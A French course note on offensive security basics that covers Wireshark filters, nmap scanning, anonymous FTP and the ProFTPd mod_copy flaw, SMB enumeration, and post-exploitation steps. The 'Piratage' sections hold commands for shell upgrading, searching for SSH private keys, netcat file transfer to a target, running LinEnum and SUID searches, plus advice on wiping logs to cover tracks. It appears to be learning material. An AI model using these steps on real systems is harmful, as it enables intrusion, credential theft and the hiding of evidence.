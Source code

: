 =============================================
4. CyberSécurité - Les problèmes du système
=============================================

On rappelle d'une adresse IP est l'adresse d'une machine (127.0.0.1 = adresse IP locale). Il existe
des adresses publiques (n'importe qui peut vous trouver avec) ou des adresses privées (seuls ceux sur le même
réseau peuvent vous trouver).

Un protocole décrit comment sont échangés les données (ex: TCP, UDP).

Les données sont échangées entre deux machines (donc deux IP), en passant par un port et utilisant un protocole.

Le cours sur le réseau contient toutes les informations détaillées.

exploit-db.com
	Le site exploit-db (et son package associé : exploitdb, avec la commande searchsploit) permet de voir
	toutes les failles reportées d'un logiciel.

	Autres : https://attackerkb.com/, https://www.rapid7.com/, https://cve.mitre.org/cve/.

Fuites de données
	Il est important de vérifier tous les échanges de données faits sur un système car on peut s'apercevoir que certains
	sont faits a notre insu.

	Monitor
		Vous pouvez surveiller les échanges avec Wireshark et en utilisant des filtres (fait sous windows)

			* ip.src == valeur ou ip.dest == valeur
			* tcp.port == valeur ou udp.port == valeur
			* on regarde http.request.method == GET (ou POST)
			* :code:`&&` : et logique, :code:`||` : ou logique et :code:`!=` : différent de

		Une fois la liste des requêtes sous la fin, vous avez la barre des filtres pour appliquer les filtres sur le modèle
		précédent. Lorsque vous trouvez une ligne intéressantes, vous pouvez faire clique droit > suivre > flux TCP par exemple
		pour voir de façon claire les informations échangées (remplacez TCP par le protocole a suivre).

		Vous pouvez utiliser Fichier > Export et choisir par exemple http pour récupérer des fichiers téléchargés par exemple.

	Vidéo de présentation et d'un exemple : https://www.youtube.com/watch?v=yZTPMoYY2CA

Explorer un ordinateur
	Vous pouvez trouver des vulnérabilités, des services et applications en scannant une machine depuis son IP. Par exemple
	vous pouvez trouver les ports ouverts d'une machine.

	:code:`nmap` est une commande qui vous permet de scanner une machine pour récolter des informations.

		* Vous avez plusieurs types de scans

			* :code:`-sL` : liste toutes les cibles
			* :code:`-sn` : ne pas regarder les ports

		* Vous avez ensuite le protocole

			* scan UDP : :code:`-sU`
			* scan TCP : :code:`-sS` ou :code:`-sT`

		* :code:`-p <port>` : définir un port
		* :code:`-p- <port-port>` : définir un interval de ports
		* :code:`-T<n>` : timing template, n désigne l'agressivité de 0 (discret) à 5 (agressif)

		* vous pouvez lier un script a exécuter

			* :code:`--script=<lua script>` : https://nmap.org/nsedoc/, https://nmap.org/nsedoc/scripts/

		* :code:`-O` : détecter l'OS
		* :code:`-A` : détecter l'OS + version, scan avec script et table de routage
		* :code:`-v` : affiche toutes les informations

	Se protéger ?

		*
			Non testé mais il existe des outils Intrusion Detection (IDS) & Prevention Systems (IPS)
			qui surveillent votre réseau comme `Snort <https://www.snort.org/>`_ et `suricata <https://suricata-ids.org/>`_
			a installer sur un pare-feu (ex: `pfsense <https://www.pfsense.org/>`_). Ils seraient capables de détecter
			des tentatives de scans, de reverse scripting, traffic dangereux etc.

		*
			Je sais que sur OVH, vous pouvez installer un firewall externe pour bloquer les accès a votre VPS qui ne sont
			pas conformes a des règles que vous avez défini (ips, ports, et protocoles).

	Vidéo de présentation et d'un exemple : https://www.youtube.com/watch?v=StmtQKoFiWg

Transferts de fichiers via FTP
	FTP (File Transfert protocol) est un protocole de transfert de fichiers utilisé pour déposer et télécharger
	des fichiers sur une autre machine (dite serveur). Le protocole FTP utilise le port 21 (connexion, ... ou le port 22 si sftp)
	mais les données transférés passent par le port 20.

	Certains serveurs ont une utilisateur ftp :code:`anonymous` c'est-à-dire qui n'a pas besoin de mot de passe et qui certaines
	fois peut faire des choses sur le serveur qu'il ne devrait pas pouvoir faire. Il est donc recommandé de le désactiver.

	En tant qu'utilisateur anonyme, nous ne sommes pas associé a une session et n'avons donc pas des permissions restreintes,
	si par exemple un script que nous avons déposé est exécuté, alors nous pourrions obtenir une porte dérobée sur le serveur.

	Vous pouvez utilsez :code:`FileZilla` sous windows pour vous connecter en ftp. Sinon en ligne de commande
	:code:`ftp <ip>`.

		* :code:`ls` : liste les fichiers/dossiers d'un répertoire
		* :code:`cd` : se déplacer
		* :code:`put` : déposer un fichier sur le serveur
		* :code:`get` : récupérer un fichier sur le serveur

	Voici une vidéo + exemple : https://www.youtube.com/watch?v=i-jqFYTPEV4

	Une faille existe dans la version 1.3.5 ProFTPd dont le module mod_copy permet avec les commandes
	:code:`SITE CPFR <file>` (copie) et :code:`SITE CPTO <path>` (coller). Si vous êtes un utilisateur anonyme, vous pouvez
	déplacer n'importe quel fichier vers n'importe quel endroit.

Transferts de fichiers via SMB/NFS
	FTP est un protocole souvent utilisé pour partager des fichiers de façon externe. En interne, les protocoles
	SMB (~windows) ou NFS (~linux) sont majoritairement utilisés.

	Samba est un outil qui relie des infrastructures utilisant l'un des deux protocole et uniformise les échanges. Les échanges
	faits sont encryptés par défaut donc assez sécurisés. Vous pouvez ainsi relier tous les ordinateurs, photocopieuses, imprimantes
	d'une entreprise à un même dossier :code:`share` dont le contenu sera commun à toutes.

	enum (enum4linux)
		Télécharger ici l'alternative de enum.exe `enum4linux.pl <https://github.com/CiscoCXSecurity/enum4linux/blob/master/enum4linux.pl>`_
		sachant que je n'ai pas trouvé comment faire sous windows.

			* utilisation : :code:`./enum4linux.pl <options> <ip>`
			* :code:`-U` : liste des utilisateurs
			* :code:`-M` : liste des machines
			* :code:`-S` : liste des shares
			* :code:`-o` : infos sur le système
			* :code:`-i` : infos sur les imprimantes
			* :code:`-v` : affiche tout ce qui est fait

		Note: vous devez installer :code:`smbclient` pour utiliser enum4linux.

		Commades :

			* connecter a un dossier partagé : :code:`smbclient //IP/nom_share`
			* Vous pouvez tester sans mot de passe
			* Les commandes sont les mêmes que plus haut en FTP (ls, cd, get, put, pwd, more).
			* télécharger tous le fichiers d'une share : :code:`smbget -R  smb://IP/nom_share`

	Voici une vidéo + exemple : https://www.youtube.com/watch?v=HscyCbModk4

	En utilisant :code:`nmap`, vous pouvez explorer les utilisateurs et les :code:`shares` avec la commande
	code:`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse ip`, sachant que 445 est le port utilisé
	par Samba (port 139 avant 2000).

Privilèges
	Un utilisateur doit généralement escalader en privilèges pour faire certaines actions, c'est-à-dire prouver qu'il a par exemple
	les droits :code:`administrateur` pour modifier la machine (ex: le exécuter en tant qu'administrateur sous Windows par exemple
	ou sudo/yum/... sous linux).

	Généralement, vous cherchez a obtenir un compte avec un maximum de permissions (escalade) ou alors d'autre comptes avec les même
	permissions que vous mais accès a d'autres données (horizontal).

Piratage
	Une fois que vous avez accès à la machine via un invite de commande (ex: reverse shell qui appelle une commande netcat
	qui envoi un shell sur votre machine).

		* vous pouvez utiliser :code:`echo $0` pour obtenir le chemin (donc nom) de votre shell
		* vous pouvez essayer :code:`python -c 'import pty; pty.spawn("/bin/bash")'` pour passer à bash
		* ou directement :code:`bash` si ça marche
		* vous pouvez utiliser :code:`whoami` pour voir qui vous êtes (les utilisateurs les plus important sont ceux ayant les droits root : /etc/sudoers)
		* chercher des informations

			* clef ssh : :code:`find / -name id_rsa 2> /dev/null`
			* sauvegardes
			* fichiers sensibles, mot de passes
			* des informations sur la machine (noyau, version, ...)

				* noyau, version (:code:`cat /etc/*release`)
				* processus, ... qui pourraient être vulnérables
				* scripts de sauvegarde (exploit crontabs)
				* fichier/dossiers avec des mauvaises configurations (permissions, etc.)
				* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
				* https://payatu.com/guide-linux-privilege-escalation
				*

			* Outil : LinEnum (https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

				* récupérer : :code:`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` ou ftp/...
				* alternative

					* dans /tmp, sur l'attaqué (IP) on lit le fichier : :code:`nc -l -p 1337 > LinEnum.sh`
					* sur l'attaquant on écrit le fichier a IP : :code:`nc IP 1337 < LinEnum.sh`

				* :code:`chmod +x LinEnum.sh` et :code:`./LinEnum.sh`


			* ...

		* effacer ses traces

			* :code:`/var/log/auth.log` : connexion ssh
			* :code:`/var/log/syslog` : pare-feu
			* :code:`/var/log/<service>` : apache (serveur web, access.log)... les logs d'un service.

	Vidéo d'explication : https://www.youtube.com/watch?v=_SMxZPne5QU

Piratage : SUID
	SUID correspond a une permission qui une fois ajoutée fait qu'un fichier est exécuté avec les droits de son créateur
	donc un fichier .sh de root est exécuté avec les permissions root.

	https://gtfobins.github.io/ : liste de fichiers binaires qui si la machine n'est pas bien configurée, alors peut
	être utilisés pour élever ses privilèges.

		* :code:`find / -perm -u=s -type f 2>/dev/null`